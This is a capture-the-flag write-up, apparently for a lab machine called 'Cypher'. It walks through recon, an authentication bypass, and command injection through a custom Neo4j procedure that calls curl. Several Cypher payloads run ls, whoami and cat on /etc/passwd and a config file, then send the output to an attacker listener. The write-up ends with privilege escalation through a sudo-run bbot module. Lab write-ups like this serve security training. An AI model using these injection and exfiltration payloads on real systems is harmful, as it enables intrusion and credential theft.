# Cypher

### Machine Information



Target: **10.x.x.x**

## Reconnaissance

```bash
$ nmap -sV -sC 10.x.x.x
```



* 22/tcp, OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
* 80/tcp, HTTP nginx 1.24.0 (Ubuntu)
  - Redirects to cypher.htb

First, it is necessary to update the local DNS in `/etc/hosts` by adding a new record:

```bash
$ sudo echo '10.x.x.x  cypher.htb' >> /etc/hosts
```

Visiting `http://cypher.htb`, the following result is obtained:



No relevant information is found by visiting the "visible" paths, except for the presence of a `Login` form.



A Gobuster instance is launched to enumerate directories.

```bash
$ gobuster dir -u http://cypher.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```



The scan detected the presence of the `testing/` directory:


Download it and analyze:


* [Neo4j](https://neo4j.com) is a Graph Database Management System (GDBMS).

A Java class decompiler was used to inspect the `.class` files.

For example, in this case, [Decompiler](https://www.decompiler.com/) was used.




It appears that `Neo4j` provides developers with the ability to perform graph queries using the declarative language `Cypher`.

* [Cypher](https://neo4j.com/product/cypher-graph-query-language/) is a declarative graph query language.

Additionally, from the [cheat sheet](https://neo4j.com/docs/cypher-cheat-sheet/5/all/), it was found that procedures can be invoked using the `CALL` clause.

> The CALL clause is used to call a procedure deployed in the database.

These two functions appear to be procedures that can be called.

The most interesting one seems to be `getUrlStatusCode`, as it executes the `curl` command, accepting a URL parameter passed in the query.

**IDEA**: Cypher query injection.

## Login bypass

The login form is exploited.




Now, an attempt is made to call the `getUrlStatusCode` procedure to retrieve information about the username and password.




The same approach is used to capture the hashed password. The following was obtained:

- graphasm:9f54ca4c130be6d529a56dee59dc2b2090e43acf

It is an SHA1 hash, as indicated by the query being attacked.

An attempt is made to crack the hash, but without success. The next idea is to modify the behavior.



Since the hash value returned by the query is used, it is possible to return a custom hash value to bypass authentication.


Successfully logged in as `graphasm`!



## Query Injection

A Cypher query injection is attempted to obtain relevant system information.

```Cypher
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`ls| tr " " "_" | tr "\n" "_"`;') yield statusCode
```





```Cypher
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`cat /etc/passwd | tr " " "_" | tr "\n" "_"`;') yield statusCode
```





```Cypher
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`whoami | tr " " "_" | tr "\n" "_"`;') yield statusCode
```

- neo4j

It is possible to navigate `/home/graphasm/`:

```Cypher
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`ls /home/graphasm/ | tr " " "_" | tr "\n" "_"`;') yield statusCode
```

Located files:

- user.txt
- bbot_preset.yml

However, `user.txt` is not readable, while `bbot_preset.yml` contains the following content:

```Cypher
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`cat /home/graphasm/bbot_preset.yml | tr " " "_" | tr "\n" "_"`;') yield statusCode
```



- neo4j:cU4btyib.20x**********hK

An SSH connection is attempted with `graphasm` using the discovered password:


Successfully accessed with:

- graphasm:cU4btyib.20x**********hK

## Privilege Escalation


[bbot](https://www.blacklanternsecurity.com/bbot/Stable/) is a recursive internet scanner for hackers.

It offers some functionalities, and during the study of the program, it was found that `custom modules` can be created.


[How to write a BBOT Module](https://www.blacklanternsecurity.com/bbot/Stable/dev/module_howto/)

**IDEA**: Exploit BBOT to read arbitrary sensitive data.

A module `mymodule.py` is built:


and a `my_preset.yml` is defined for this module:



Launch BBOT with the custom preset and module:

```Bash
sudo /usr/local/bin/bbot -p ./my_preset.yml -m mymodule
```



The command was successfully executed! The flag is retrieved.




[+] Completed.

